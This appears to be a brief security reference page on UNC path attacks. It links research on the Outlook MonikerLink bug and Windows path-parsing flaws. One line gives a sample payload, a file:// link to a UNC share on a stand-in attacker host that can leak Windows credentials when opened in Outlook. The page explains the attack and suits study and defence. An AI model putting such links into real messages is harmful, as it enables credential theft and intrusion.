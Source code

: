 ```yaml
---
title: UNC Path
---
```


References:

- [The Risks of the #MonikerLink Bug in Microsoft Outlook and the Big Picture](http://web.archive.org/web/20240216124520/https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/), `file:///\\attacker.com\share\foo.rtf!bar`
- [Mute the Sound: Chaining Vulnerabilities to Achieve RCE on Outlook: Pt 1](http://web.archive.org/web/20231219233307/https://www.akamai.com/blog/security-research/2023/dec/chaining-vulnerabilities-to-achieve-rce-part-one), more bugs when parsing paths in Windows
- [The Definitive Guide on Win32 to NT Path Conversion](http://web.archive.org/web/20240131142115/https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32-to-nt.html), bugs when parsing paths in Windows
